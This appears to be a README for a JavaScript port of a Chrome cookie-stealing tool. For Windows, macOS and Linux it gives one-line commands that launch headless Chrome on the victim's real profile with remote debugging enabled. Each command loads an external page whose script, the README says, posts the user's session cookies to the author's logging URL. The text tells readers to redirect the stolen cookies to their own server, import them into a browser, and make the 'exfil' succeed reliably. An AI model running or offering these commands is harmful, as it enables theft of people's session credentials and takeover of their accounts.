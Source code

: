 This is a javascript implementation of the [cookie_crimes tool](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password) by @mangopdf

Running the command below will run the javascript found in the *index.html* file of this repo which has been setup using Github Pages. It is currently hardcoded to post the script output (your sensitve cookies) to my own loggly.com URL. You should host it on your own server and modify the location where the cookies get sent.

Use "Edit this Cookie" chrome extension to paste the JSON formatted cookies right into your browser.

Thank you to @shellsterdude for introducing me to cookie_crimes and for the hints, tips and help testing he gave along the way.

Note: Running this command leaves a headless browser behind, causing non-deterministic results if you run it again. You should kill the chrome processes associated with the headless browser or restart the OS before running this command a second time to guarantee your successfull exfil of cookies.

# Windows

## Windows 10

### 64 Bit

```"%PROGRAMFILES(X86)%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

### 32 Bit

```"%PROGRAMFILES%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

## Windows 7

```"%localAppData%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

# OS X

```"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="$HOME/Library/Application Support/Google/Chrome" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

# Linux

```google-chrome --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="~/.config/google-chrome/default" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```


